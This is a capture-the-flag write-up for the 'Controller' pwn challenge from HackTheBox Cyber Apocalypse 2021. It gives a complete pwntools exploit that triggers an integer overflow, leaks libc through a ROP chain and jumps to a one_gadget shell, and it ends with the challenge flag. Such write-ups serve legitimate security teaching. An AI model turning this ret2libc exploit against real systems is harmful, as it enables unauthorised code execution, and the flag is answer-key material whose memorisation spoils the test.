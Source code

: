 ```yaml
---
name: Controller (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Controller (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Controller

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/6DRuT1JBmBE/0.jpg)](https://youtu.be/6DRuT1JBmBE?t=30s "HTB Cyber Apocalypse CTF 2021: Controller")

## Challenge Description

> The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Perform subtraction of two negatives to get +65338
def calc(p):
    p.sendlineafter(': ', '-65338')
    p.sendline('-130676')
    p.sendlineafter('>', '2')

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './controller'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Swap between local and remote libc
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 40

# Start program
io = start()

# Generate 65338 in calculator
calc(io)

# Leak got.puts using ROP object
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.calculator()

# Send the payload
io.sendlineafter('>', flat({offset: rop.chain()}))
io.recvline()

# Get our leaked got.write address and format it
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Set the libc_base_addr using the offsets
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Generate 65338 in calculator
calc(io)

# Send the payload - one_gadget
io.sendlineafter('>', flat({offset: libc.address + 0x4f3d5}))

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}`

